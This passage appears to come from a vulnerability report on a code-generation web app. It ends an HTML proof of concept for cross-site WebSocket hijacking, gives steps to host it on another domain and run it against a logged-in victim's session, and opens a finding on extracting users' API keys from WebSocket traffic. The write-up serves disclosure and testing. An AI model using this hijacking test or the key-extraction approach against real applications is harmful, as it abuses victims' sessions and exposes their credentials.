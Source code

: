 ```html

      // Send a test message
      const payload = {
        "generatedCodeConfig": "html_tailwind",
        "inputMode": "image",
        "image": "data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAQAAAC1HAwCAAAAC0lEQVR42mNk+A8AAQUBAScY42YAAAAASUVORK5CYII=",
        "generationType": "create"
      };

      ws.send(JSON.stringify(payload));
    };

    ws.onmessage = function(event) {
      console.log('Message from server:', event.data);
      document.getElementById('output').innerHTML += '<p>Received: ' + event.data + '</p>';
    };

    ws.onerror = function(error) {
      console.error('WebSocket error:', error);
      document.getElementById('output').innerHTML += '<p>Error: ' + JSON.stringify(error) + '</p>';
    };

    ws.onclose = function() {
      console.log('Connection closed');
      document.getElementById('output').innerHTML += '<p>Connection closed</p>';
    };
  </script>
</body>
</html>
```

2. Host this HTML file on a different domain than the target application
3. Open the HTML file in a browser while having an active session with the target application
4. Verify that the WebSocket connection is established and that the application responds to the message
5. Check if the application performs any validation of the WebSocket connection or if it processes the request without restriction

This test confirms the vulnerability if:
- The WebSocket connection is established successfully
- The application starts processing the code generation request
- The client receives messages back from the server

## Client-Side API Key Extraction

### Vulnerability Name
Client-Side API Key Extraction through WebSocket Communication

### Description
The application allows API keys (OpenAI, Anthropic, etc.) to be passed from the client-side settings dialog to the backend through WebSocket communication. This design creates a vulnerability where a malicious actor could extract these API keys if they gain access to the WebSocket traffic or can execute JavaScript in the context of the application.
